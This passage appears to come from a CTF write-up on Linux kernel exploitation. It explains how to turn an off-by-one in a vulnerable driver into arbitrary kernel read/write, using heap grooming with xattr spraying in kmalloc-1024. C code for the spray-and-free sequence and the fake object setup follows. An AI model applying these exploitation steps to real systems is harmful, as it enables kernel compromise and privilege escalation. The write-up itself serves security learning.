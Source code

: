 

### :bomb: Gaining AAW and AAR

Now that we know, we have to find a way to get more impactful primitives such as arbitrary read / write inside kernel space.

For this task, the previously used kernel object wasn't helping so much... I tried to play with offset (that we can provide through `pread` / `pwrite` system calls) to relatively control the pointer to read / write to, but the `size` was too small to reach actual kernel global objects.

What if we find a way to allocate chunks in chosen cache, using user-controlled data ?

We would control the first 2 fields, and get AAR / AAW ! :smiling_imp:



The next available cache for the `bank` is the `kmalloc-1024` cache, with 512 additional `fatptr` creation, we can reach the end of the chunk within the `kmalloc-1024` cache.

Now we have to find a way to make holes (or `kfree`) inside the `kmalloc-1024` cache in order to have such heap layout :

```
[ BANK ] [ USER CONTROLLED CHUNK ]
```

Let's use elastic `xattr` objects ! 

Here is the plan : 

- Allocate a bunch of `xattr` objects in order to fill the holes inside the `kmalloc-1024` cache
- Free them in reverse order using `removexattr`, to control subsequent allocations
- Allocate another 32 `fatptr` objects to fill the bank inside the `kmalloc-1024` cache
- Update their data with our fake `fatptr` structure to ensure the chunk allocated just after the `bank` will be ours
- Allocate a bunch of other `xattr` objects with our fake `fatptr` object.
- Exploit the off-by-one to select our crafted `fatptr` object
- Profit :tada:



Here is the C code doing this : 

```c
struct fatptr *fake_obj = malloc(0x400);

fake_obj->data = 0xdeadbeefcafebabe;
fake_obj->size = 0xf00dbabe; // size

// Fill the holes inside kmalloc-512 caches
for (int i = 0; i < 0xc0; i++) {
    sprintf(buf, "attr%d", i);
    setxattr("/dev/null", buf, fake_obj, 0x400, 0);
}

// Free the allocated xattr in reverse order
// in order to control the order of the subsequent allocations   
for (int i = 0xbf; i >= 0; i--) {
    sprintf(buf, "attr%d", i);
    removexattr("/dev/null", buf);
}

// Create 32 fatptr objects in order to fill the bank inside the kmalloc-1024 cache
for (int i = 0; i < 0x20; i++ ){
    create(fd, 0x400);
}

for (int i = 0; i < 0x80; i++) {
    sprintf(buf, "attr%d", i);
    setxattr("/dev/null", buf, fake_obj, 0x400, 0);
}
```